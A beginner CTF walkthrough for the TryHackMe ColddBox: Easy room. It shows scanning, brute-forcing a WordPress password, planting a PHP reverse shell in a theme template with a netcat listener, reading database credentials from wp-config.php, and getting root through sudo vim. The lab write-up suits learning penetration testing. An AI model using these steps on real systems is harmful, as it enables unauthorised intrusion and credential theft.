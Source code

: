 # ColddBox: Easy — Walkthrough [TryHackMe](https://tryhackme.com/room/colddboxeasy)

## Introduction
ColddBox: Easy is a beginner-friendly TryHackMe room focused on WordPress exploitation, enumeration, and basic privilege escalation. A great starting point for those diving into web and Linux-based CTFs.

## Scanning
```python
nmap -p- -sC -sV 10.10.121.22
```
Results:
```python
80/tcp — HTTP (Apache 2.4.18, WordPress 4.1.31)
4512/tcp — SSH
```
## Gobuster
```python
gobuster dir -u http://10.10.121.22 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt
```
Interesting results:
```python
/hidden
/wp-admin
/wp-login.php
/wp-config.php
```
Inside /hidden, I found this message:
```python
U-R-G-E-N-T
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```
## WPScan — Brute Forcing
```python
wpscan --url http://10.10.121.22/ -eu -P /usr/share/wordlists/rockyou.txt
```
I successfully brute-forced the password for c0ldd.

## Getting a Reverse Shell
1. Log into the WordPress admin panel.

2. Go to Appearance > Theme Editor > 404 Template.

3. Replace the content with a PHP reverse shell.

4. On your attacker machine:
```python
nc -lvnp 4444
```
5. Trigger the shell by visiting:
```python
http://10.10.121.22/wp-content/themes/twentyfifteen/404.php
```
Reverse shell acquired.

## SSH Access
Inside the shell, navigate to /var/www/html and read wp-config.php:
```python
define('DB_USER', 'c0ldd');
define('DB_PASSWORD', '********');
```
Use the credentials:
```python
ssh c0ldd@10.10.121.22 -p 4512
```
Now we have full shell access as c0ldd and can read user.txt.

## Privilege Escalation
Check sudo permissions:
```python
sudo -l
```
We can run:
```python
(root) /usr/bin/vim
(root) /bin/chmod
(root) /usr/bin/ftp
```
We exploit vim to get root:
```python
sudo vim -c ':!/bin/sh'
```
We're root. Grab the flag:
```python
cat /root/root.txt
```
Conclusion

In this write-up, I describe how I exploited ColdBox. Easy!
machine by exploiting weak user passwords.

